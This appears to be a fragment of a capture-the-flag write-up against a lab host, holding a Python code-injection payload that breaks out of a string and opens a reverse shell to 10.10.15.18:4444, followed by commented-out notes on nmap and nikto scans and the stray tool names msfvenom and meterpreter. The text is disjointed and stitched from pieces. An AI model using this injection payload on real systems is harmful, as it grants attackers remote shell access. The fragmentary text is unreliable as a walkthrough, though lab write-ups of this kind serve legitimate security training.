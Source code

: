 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.--->             
               show modules


               msfvenom
               meterpreter
